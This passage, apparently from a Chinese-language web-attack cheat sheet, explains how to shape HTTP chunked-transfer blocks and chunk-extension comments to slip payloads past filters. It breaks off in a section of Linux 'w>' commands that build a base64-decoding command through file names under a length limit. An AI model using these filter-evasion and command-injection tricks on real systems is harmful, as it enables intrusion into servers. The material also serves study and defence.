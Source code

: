 注意:第2块,第3块,第7块,和第8块.

第2块中需要满足
```
长度值
空行
Content-Disposition: name="id"
空行
```

这种形式,且长度值要将两个空行的长度计算在内(空行长度为2).

第3块,即数据开始部分需满足
```
长度值
空行
数据
```

形式,且需将空行计算在内.

第7块即分割边界结束部分,需满足
```
长度值
空行
分割结束符
空行
```

形式,且计算空行长度在内.

第8块需满足
```
0空格
空行
空行
```
形式.如果不同时满足这四块的形式要求,payload 将不会生效.

**使用注释扰乱分块数据包**

通过 [RFC7230](https://tools.ietf.org/html/rfc7230) 阅读规范发现分块传输可以在长度标识处加上分号 `";"` 作为注释,如:
```
9;kkkkk
1234567=1
4;ooo=222
2345
0
(两个换行)
```

---

# 长度

**Linux**
```
w>hp\\
w>c.p\\
w>d\>\\
w>\ -\\
w>e64\\
w>bas\\
w>7\|\\
w>XSk\\
w>Fsx\\
w>dFV\\
w>kX0\\
w>bCg\\
```